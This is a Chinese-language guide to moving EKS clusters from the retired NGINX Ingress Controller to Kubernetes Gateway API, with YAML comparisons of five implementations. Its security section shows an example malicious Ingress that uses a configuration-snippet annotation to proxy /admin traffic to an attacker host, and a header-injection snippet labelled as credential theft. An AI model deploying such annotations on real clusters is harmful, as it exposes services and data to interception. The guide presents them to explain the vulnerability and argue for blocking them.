






import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';
import GatewayApiBenefits from '@site/src/components/GatewayApiBenefits';
import {
  DocumentStructureTable,
  RiskAssessmentTable,
  ArchitectureComparisonTable,
  RoleSeparationTable,
  GaStatusTable,
  FeatureComparisonMatrix,
  SolutionOverviewMatrix,
  ScenarioRecommendationTable,
  FeatureMappingTable,
  DifficultyComparisonTable,
  AwsCostTable,
  OpenSourceCostTable,
  LatencyComparisonTable,
  RouteRecommendationTable,
  SolutionFeatureTable,
  RoadmapTimeline,
} from '@site/src/components/GatewayApiTables';

# Gateway API 采用指南

> **📌 参考版本**: Gateway API v1.4.0, Cilium v1.19.0, EKS 1.32, AWS LBC v3.0.0, Envoy Gateway v1.7.0

> 📅 **撰写日期**: 2025-02-12 | ⏱️ **阅读时间**: 约 25 分钟

## 1. 概述

随着 NGINX Ingress Controller 官方生命周期终止（EOL）时间定于 2026 年 3 月，向 Kubernetes Gateway API 过渡已经从可选变为必须。本指南涵盖从理解 Gateway API 架构到比较 5 大主流实现方案（AWS LBC v3、Cilium、NGINX Gateway Fabric、Envoy Gateway、kGateway）、深入 Cilium ENI 模式配置、分步迁移执行策略以及性能基准测试规划的全部内容。

### 1.1 目标读者

- **运维 NGINX Ingress Controller 的 EKS 集群管理员**：制定 EOL 应对策略
- **规划 Gateway API 迁移的平台工程师**：技术选型与 PoC 执行
- **评估流量管理架构现代化的架构师**：长期路线图设计
- **考虑 Cilium ENI 模式与 Gateway API 集成的网络工程师**：基于 eBPF 的高性能网络

### 1.2 文档结构

<DocumentStructureTable locale="en" />

:::info 阅读策略
- **快速了解**：第 1-3、6 节（约 10 分钟）
- **技术选型**：第 1-4、6 节（约 20 分钟）
- **完整迁移**：全文阅读（约 25 分钟）
:::

---

## 2. NGINX Ingress Controller 退役 — 为何迁移势在必行

### 2.1 EOL 时间线



**关键事件详情：**

- **2025 年 3 月**：IngressNightmare（CVE-2025-1974）被发现 — 通过 Snippets 注解实现的任意 NGINX 配置注入漏洞加速了 Kubernetes SIG Network 对退役的讨论
- **2025 年 11 月**：Kubernetes SIG Network 正式宣布 NGINX Ingress Controller 退役。引用维护者资源不足（仅 1-2 名核心维护者）以及 Gateway API 成熟度作为主要原因
- **2026 年 3 月**：官方 EOL — 安全补丁和漏洞修复完全停止。在生产环境中继续使用可能导致合规违规

:::danger 必要行动
**2026 年 3 月之后，NGINX Ingress Controller 将不再接收安全漏洞补丁。**为了维持 PCI-DSS、SOC 2 和 ISO 27001 等安全认证，您必须过渡到基于 Gateway API 的解决方案。
:::

### 2.2 安全漏洞分析

**IngressNightmare (CVE-2025-1974) 攻击场景：**

<Tabs>
  <TabItem value="attack-overview" label="攻击概述" default>

  

  *针对 Kubernetes 集群中 Ingress NGINX Controller 的未授权远程代码执行（RCE）攻击向量。外部和内部攻击者均可通过恶意 Admission Review 攻陷控制器 Pod，从而获取集群中所有 Pod 的访问权限。（来源：[Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities)）*

  </TabItem>
  <TabItem value="architecture" label="控制器架构">

  

  *Ingress NGINX Controller Pod 内部架构。Admission Webhook 的配置验证过程（攻击者在此注入恶意配置到 NGINX 中）是 CVE-2025-1974 的核心攻击面。（来源：[Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities)）*

  </TabItem>
  <TabItem value="exploit-code" label="漏洞利用代码">

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: malicious-ingress
  annotations:
    # 攻击者注入任意 NGINX 配置
    nginx.ingress.kubernetes.io/configuration-snippet: |
      location /admin {
        proxy_pass http://malicious-backend.attacker.com;
        # 可绕过认证、窃取数据、安装后门
      }
spec:
  ingressClassName: nginx
  rules:
  - host: production-api.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: production-service
            port:
              number: 80
```

  </TabItem>
</Tabs>

**风险评估：**

<RiskAssessmentTable locale="en" />

:::warning 当前运维中的注意事项
对于现有的 NGINX Ingress 环境，我们建议立即应用 admission controller 策略，禁止使用 `nginx.ingress.kubernetes.io/configuration-snippet` 和 `nginx.ingress.kubernetes.io/server-snippet` 注解。
:::

### 2.3 通过采用 Gateway API 从根本上解决漏洞

Gateway API 从根本上解决了 NGINX Ingress 的结构性安全漏洞。

<ArchitectureComparisonTable locale="en" />

<Tabs>
<TabItem value="nginx" label="❌ NGINX Ingress 漏洞" default>

**1. 配置片段注入攻击**

NGINX Ingress 允许通过注解注入任意字符串，造成严重安全风险：



```yaml
# ❌ NGINX Ingress — 可注入任意字符串
annotations:
  nginx.ingress.kubernetes.io/configuration-snippet: |
    # 可窃取相邻服务凭据 (CVE-2021-25742)
    proxy_set_header Authorization "stolen-token";
```

**2. 所有权限集中在单一资源中**

- 路由、TLS、安全和扩展设置全部混合在一个 Ingress 资源中
- 无法按注解进行 RBAC 分离 — 要么拥有完整 Ingress 权限，要么没有
- 只需要路由访问权限的开发者也获得了 TLS/安全修改权限

**3. 供应商注解依赖**

- 非标准功能通过供应商特定注解添加 → **可移植性丧失**
- 注解冲突调试困难
- 管理 100+ 供应商注解的复杂度不断增长

这些结构性问题使 NGINX Ingress 无法满足生产环境的安全要求。

</TabItem>
<TabItem value="gateway" label="✅ Gateway API 解决方案">

**1. 三层角色分离消除了 Snippets**



每个团队只管理其权限范围内的资源 — 消除了任意配置注入的路径。

```yaml
# 基础设施团队：GatewayClass（集群级别）
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: infrastructure-team
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gatewayclasses"]
  verbs: ["create", "update", "delete"]
---
# 平台团队：Gateway（命名空间级别）
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: platform-team
  namespace: platform-system
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["create", "update", "delete"]
---
# 应用团队：仅限 HTTPRoute（仅路由规则）
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-team
  namespace: app-namespace
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["httproutes"]
  verbs: ["create", "update", "delete"]
```

**2. 基于 CRD Schema 的结构化验证**

所有字段均通过 OpenAPI schema 预定义，从根本上不可能进行任意配置注入：



```yaml
# ✅ Gateway API — 仅允许 schema 验证过的字段
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /api
    filters:
    - type: RequestHeaderModifier  # 仅允许预定义的 filter
      requestHeaderModifier:
        add:
        - name: X-Custom-Header
          value: production
```

**3. 通过 Policy Attachment 模式安全扩展**

扩展功能被分离为独立的 Policy 资源，通过 RBAC 控制：



```yaml
# Cilium 的 CiliumNetworkPolicy 用于 L7 安全策略
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-rate-limiting
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - fromEndpoints:
    - matchLabels:
        role: frontend
    toPorts:
    - ports:
      - port: "80"
        protocol: TCP
      rules:
        http:
        - method: "GET"
          path: "/api/.*"
          rateLimit:
            requestsPerSecond: 100
```

</TabItem>
</Tabs>

:::info 活跃的社区支持
- **15+ 生产级实现**：AWS、Google Cloud、Cilium、Envoy、NGINX、Istio 等
- **定期季度发布**：截至 v1.4.0 包含 GA 资源
- **官方 CNCF 项目**：由 Kubernetes SIG Network 主导
:::

---

## 3. Gateway API — 下一代流量管理标准

### 3.1 Gateway API 架构


*来源：[Kubernetes Gateway API 官方文档](https://gateway-api.sigs.k8s.io/) — 三种角色（基础设施提供者、集群运维人员、应用开发者）分别管理 GatewayClass、Gateway 和 HTTPRoute*

:::tip 详细对比
关于 NGINX Ingress 和 Gateway API 的详细架构对比，请参阅 [2.3 通过采用 Gateway API 从根本上解决漏洞](#23-通过采用-gateway-api-从根本上解决漏洞)，包含分标签页的详细分析。
:::

### 3.2 三层资源模型

Gateway API 通过以下层次结构分离职责：

<Tabs>
  <TabItem value="overview" label="角色概览" default>

  

  *来源：[Kubernetes Gateway API 官方文档](https://gateway-api.sigs.k8s.io/concepts/api-overview/) — GatewayClass → Gateway → xRoute → Service 层次结构*

  <RoleSeparationTable locale="en" />

  </TabItem>
  <TabItem value="infra" label="基础设施 (GatewayClass)">

  **基础设施团队：GatewayClass 专属权限（ClusterRole）**

  GatewayClass 是集群级资源，只有基础设施团队可以创建/修改。它控制控制器选择和全局策略。

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: ClusterRole
  metadata:
    name: infrastructure-gateway-manager
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gatewayclasses"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  ```

  </TabItem>
  <TabItem value="platform" label="平台 (Gateway)">

  **平台团队：Gateway 管理权限（Role — 命名空间级）**

  Gateway 是命名空间级资源。平台团队管理监听器配置、TLS 证书和负载均衡器设置。

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: Role
  metadata:
    name: platform-gateway-manager
    namespace: gateway-system
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gateways"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  - apiGroups: [""]
    resources: ["secrets"]  # TLS 证书管理
    verbs: ["get", "list"]
  ```

  </TabItem>
  <TabItem value="app" label="应用团队 (HTTPRoute)">

  **应用团队：仅限 HTTPRoute（Role — 命名空间级）**

  应用团队仅管理其自身命名空间中的 HTTPRoute 和 ReferenceGrant。他们无法访问 GatewayClass 或 Gateway 资源。

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: Role
  metadata:
    name: app-route-manager
    namespace: production-app
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["httproutes", "referencegrants"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  - apiGroups: [""]
    resources: ["services"]
    verbs: ["get", "list"]
  ```

  </TabItem>
</Tabs>

### 3.3 GA 状态 (v1.4.0)

Gateway API 分为 Standard Channel 和 Experimental Channel，各资源的成熟度级别不同：

<GaStatusTable locale="en" />

:::warning Experimental Channel 注意事项
Alpha 状态的资源**不保证 API 兼容性**，在次版本升级时可能发生字段变更或删除。对于生产环境，我们建议仅使用 Standard channel 中的 GA/Beta 资源。
:::

### 3.4 核心优势

通过可视化图表和 YAML 示例探索 Gateway API 的 6 大核心优势。

<GatewayApiBenefits />

## 4. Gateway API 实现方案对比 - AWS 原生 vs 开源

本节对 5 大主流 Gateway API 实现方案进行详细对比。了解每个方案的功能、优势和劣势，有助于您为组织做出最优选择。

### 4.1 方案总览对比

以下矩阵对比了 5 个 Gateway API 实现方案的关键功能、限制和使用场景。

<SolutionOverviewMatrix locale="en" />

### 4.2 综合对比表

<FeatureComparisonMatrix locale="en" />

### 4.3 NGINX 功能映射

对比 8 个关键 NGINX Ingress Controller 功能在各 Gateway API 方案中的实现方式。

<FeatureMappingTable locale="en" />

**图例**：
- ✅ 原生支持（无需额外工具）
- ⚠️ 部分支持或需要额外配置
- ❌ 不支持（需要单独方案）

### 4.4 实施难度对比

<DifficultyComparisonTable locale="en" />

### 4.5 成本影响分析

#### AWS 原生额外成本

<AwsCostTable locale="en" />

#### 开源额外成本

<OpenSourceCostTable locale="en" />

:::tip 成本优化
如果需要 3 个以上 WAF 功能（IP 白名单、速率限制、请求体大小限制），AWS 原生方案更具成本效益。对于 1-2 个功能，开源方案可以免费实现。
:::

### 4.6 功能实现代码示例

对比各方案的实现方式。点击标签页查看每个方案的代码。

#### 1. 认证（Basic Auth 替代方案）

<Tabs>
<TabItem value="aws" label="AWS Native (LBC v3)" default>

```yaml
# AWS LBC v3 的原生 JWT 验证
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: jwt-protected-route
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /api
      filters:
        - type: ExtensionRef
          extensionRef:
            group: eks.amazonaws.com
            kind: JWTAuthorizer
            name: cognito-authorizer
      backendRefs:
        - name: api-service
          port: 8080

---
# JWTAuthorizer CRD（LBC v3 扩展）
apiVersion: eks.amazonaws.com/v1
kind: JWTAuthorizer
metadata:
  name: cognito-authorizer
spec:
  issuer: https://cognito-idp.us-west-2.amazonaws.com/us-west-2_ABC123
  audiences:
    - api-gateway-client
  claimsToHeaders:
    - claim: sub
      header: x-user-id
    - claim: email
      header: x-user-email
```

</TabItem>
<TabItem value="cilium" label="Cilium">

:::warning 限制
Cilium 不原生支持 JWT/OIDC 认证。可使用 CiliumEnvoyConfig 配置 Envoy 的 ext_authz filter，或部署独立的认证服务（如 OAuth2 Proxy）。
:::

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

:::warning 限制
NGINX Gateway Fabric 不支持原生 JWT 验证。可结合 UpstreamSettingsPolicy 与外部认证服务使用。
:::

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: SecurityPolicy
metadata:
  name: ext-auth
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  extAuth:
    http:
      service:
        name: auth-service
        port: 8080
        # auth-service 返回 HTTP 200 或 401
      headersToBackend:
        - x-user-id
        - x-user-role
      backendRefs:
        - name: auth-service
          port: 8080
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: jwt-auth
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  jwt:
    providers:
      - name: keycloak
        issuer: https://keycloak.example.com/auth/realms/production
        audiences:
          - api-gateway
        jwksUri: https://keycloak.example.com/auth/realms/production/protocol/openid-connect/certs
        claimsToHeaders:
          - claim: sub
            header: x-user-id
          - claim: groups
            header: x-user-groups
```

</TabItem>
</Tabs>

#### 2. 速率限制

<Tabs>
<TabItem value="aws" label="AWS Native (LBC v3)" default>

```yaml
# AWS 原生使用 AWS WAF 进行速率限制
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    # 关联包含速率限制规则的 WAF Web ACL
    alb.ingress.kubernetes.io/wafv2-acl-arn: arn:aws:wafv2:us-west-2:123456789012:regional/webacl/rate-limit-acl/a1b2c3d4
spec:
  gatewayClassName: aws-alb
  listeners:
  - name: http
    port: 80
    protocol: HTTP

---
# AWS WAF 基于速率的规则（通过 AWS 控制台或 CLI 创建）
# 规则：如果 5 分钟内超过 2000 次请求则封锁 IP
```

</TabItem>
<TabItem value="cilium" label="Cilium">

```yaml
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-rate-limit
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - toPorts:
    - ports:
      - port: "80"
      rules:
        http:
        - method: "GET"
          path: "/api/.*"
          rateLimit:
            requestsPerSecond: 100
            burst: 150
```

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: rate-limiting-config
spec:
  rateLimiting:
    key: ${binary_remote_addr}
    zoneSize: 10m
    rate: 10r/s  # 每个 IP 每秒 10 次请求
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: rate-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  rateLimit:
    type: Global
    global:
      rules:
        - limit:
            requests: 1000
            unit: Second
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: rate-limit
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  rateLimitConfigs:
    - actions:
        - genericKey:
            descriptorValue: api-rate-limit
      limits:
        - key: generic_key
          value: api-rate-limit
          requestsPerUnit: 1000
          unit: MINUTE
```

</TabItem>
</Tabs>

#### 3. IP 白名单

<Tabs>
<TabItem value="aws" label="AWS Native (LBC v3)" default>

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    # 关联 WAF Web ACL
    alb.ingress.kubernetes.io/wafv2-acl-arn: arn:aws:wafv2:us-west-2:123456789012:regional/webacl/api-acl/a1b2c3d4
spec:
  gatewayClassName: aws-alb
  listeners:
  - name: http
    port: 80
    protocol: HTTP

---
# AWS WAF IP 集（通过 AWS 控制台或 CLI 创建）
# IP 白名单：203.0.113.0/24, 198.51.100.0/24
```

</TabItem>
<TabItem value="cilium" label="Cilium">

```yaml
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: ip-allowlist
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - fromCIDR:
    - 203.0.113.0/24
    - 198.51.100.0/24
    toPorts:
    - ports:
      - port: "80"
        protocol: TCP
```

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: ip-filtering
spec:
  ipFiltering:
    ipv4:
      - 203.0.113.0/24
      - 198.51.100.0/24
    mode: allow  # 或 deny 用于黑名单
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: SecurityPolicy
metadata:
  name: ip-allowlist
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
  authorization:
    rules:
      - action: ALLOW
        from:
          - source:
              cidr:
                - 203.0.113.0/24
                - 198.51.100.0/24
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

:::warning 限制
kGateway 通过 Kubernetes NetworkPolicy 或 RouteOption 结合外部授权实现 IP 过滤。
:::

</TabItem>
</Tabs>

#### 4. URL 重写

所有实现方案均支持的标准 Gateway API 功能。

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: url-rewrite
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /old-api
    filters:
    - type: URLRewrite
      urlRewrite:
        path:
          type: ReplacePrefixMatch
          replacePrefixMatch: /new-api
    backendRefs:
    - name: api-service
      port: 8080
```

#### 5. 请求体大小限制

<Tabs>
<TabItem value="aws" label="AWS Native (LBC v3)" default>

```yaml
# AWS WAF 请求体大小限制规则
# 通过 AWS 控制台或 CLI 创建
# 规则：阻止请求体大小超过 8KB 的请求
```

</TabItem>
<TabItem value="cilium" label="Cilium">

:::warning 限制
Cilium Gateway API 不提供单独的请求体大小限制 CRD。可通过 CiliumEnvoyConfig buffer filter 进行配置，或在后端应用层处理。
:::

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: body-size-limit
spec:
  clientMaxBodySize: 8m  # 8MB 限制
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: ClientTrafficPolicy
metadata:
  name: body-size-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
  http:
    maxRequestBodySize: 8388608  # 8MB（字节）
```

</TabItem>
